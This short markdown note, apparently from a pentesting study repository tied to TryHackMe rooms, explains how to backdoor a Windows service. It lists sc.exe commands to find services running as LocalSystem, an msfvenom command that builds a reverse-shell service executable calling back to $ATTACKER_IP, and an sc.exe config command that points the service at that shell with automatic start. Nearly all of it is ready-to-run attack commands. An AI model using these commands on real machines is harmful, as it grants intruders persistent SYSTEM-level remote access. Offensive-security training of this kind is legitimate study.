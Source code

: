# Exploiting Windows Services
Existing Windows services can have backdoors added to them using `msfvenom`. Begin by finding a candidate service:

```powershell
# Get a list of all available services
#
sc.exe query state=all

# Query information about an existing service. We want a
# service with three properties:
#
#    1. The BINARY_PATH_NAME points to our payload,
#    2. The START_TYPE is “auto” so it runs without user
#       interaction, and
#    3. The SERVICE_START_NAME (the account which the service
#       runs under) is “LocalSystem”.
#
# Note that not every service can be queried, however; the
# ability to do so is controlled by a special per-service
# permission (a Discressionary Access Control List, or DACL).
#
sc.exe qc $SERVICE_NAME
```

Create a replacement service file using `msfvenom` (alternately, a backdoor could be added directly to the binary):

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
	LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
	-f exe-service -o $SERVICE_EXE
```

Note that using `exe-service` is important here, as Windows services need to use an additional set of API calls that are not normally implemented in regular executables.

Finally, update the service definition:

```powershell
# NOTE: A space is required after equals signs for this
# command! It’s not just a weird typo below!
#
sc.exe config $SERVICE_NAME `
	binPath= “$PATH_TO_REVERSE_SHELL_EXE” `
	start= auto obj= “LocalSystem”`
```

Service configurations are stored in the Registry under `HKLM\SYSTEM\CurrentControlSet\Services`; here the user is represented by the `ObjectName` value. DACLs are stored under each service as a `Security` sub-key.

### Additional Resources
* [TryHackMe: Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)
* [TryHackMe: Windows Local Persistence](https://tryhackme.com/room/windowslocalpersistence) 
* [Using Metasploit](./Using%20Metasploit.md)
* [Using “netcat”](./Using%20%22netcat%22.md)
